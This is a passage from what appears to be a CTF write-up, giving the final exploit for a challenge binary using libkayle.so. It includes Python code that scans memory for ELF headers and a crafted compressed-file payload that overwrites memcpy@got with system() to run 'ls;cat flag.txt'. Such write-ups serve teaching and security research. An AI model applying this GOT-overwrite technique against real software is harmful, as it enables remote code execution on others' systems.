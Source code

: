 ```
print (f"{lastMappedPage = :#x}")

```

[](#46-the-exploit)4.6 The exploit
----------------------------------

Finally, we know everything we need about the memory mappings, now it is just a matter of leveraging a write what where primitive into code execution.

To achieve code execution I overwrote libkayle.so's memcpy@got entry with system@libc.

### [](#get-libkayle-base)Get libkayle base

Luckily for us libc base and libkayle.so base are at a constant offset from the lastMappedPage, I didn't know that was the case so I wrote a egghunter which search for `\x7fELF` (Header of ELF executables), which in the end wasn't useful.

```
    # Scan backwards looking for b'\x7fELF'
    i = 0
    numElf = 0

    while numElf != 2:
        theAddr = lastMappedPage-0x1000*i
        hdr = readFromAddr(theAddr, 4, 40500+i)
        print(f"{i:02d}) Elf in {theAddr:#x}? {hdr.hex()}")
        if hdr == b'\x7fELF':
            numElf += 1
            print (f"found elf at {theAddr:#x}")

        if i > 70:
            print ("Exploit failed, upper bound address was wrong")
            exit(1)

        i += 1


```

### [](#overwrite-libkayles-memcpygot-and-get-rce)Overwrite libkayle's memcpy@got and get RCE

Fortunately overwriting memcpy@got with system was good enough to get the flag and claim that juicy bounty :)

```
    # exp is a CompressedFile which:
    # - writes libc.system to memcpy_got
    # - calls memcpy(cmd, 0, 0) -> system(cmd)
    cmd = b"ls;cat flag.txt;\x00"
    exp = CompressedFile(24)
    
    exp.seek((memcpy_got - OUT_ADDR)&M64)
    # out=memcpy_got
    for b in p64(libc.symbols['system']):
        exp.write(bytes([b]))
    # out=memcpy_got+8
    # memcpy(out, out-off, size)
    # system(out)
    
    in_addr_off = len(exp.content)
    exp.content += cmd
    exp.seek((IN_ADDR + in_addr_off - (memcpy_got + 8))&M64)
    exp.memcpy(0, 0) # system(cmd)
    
```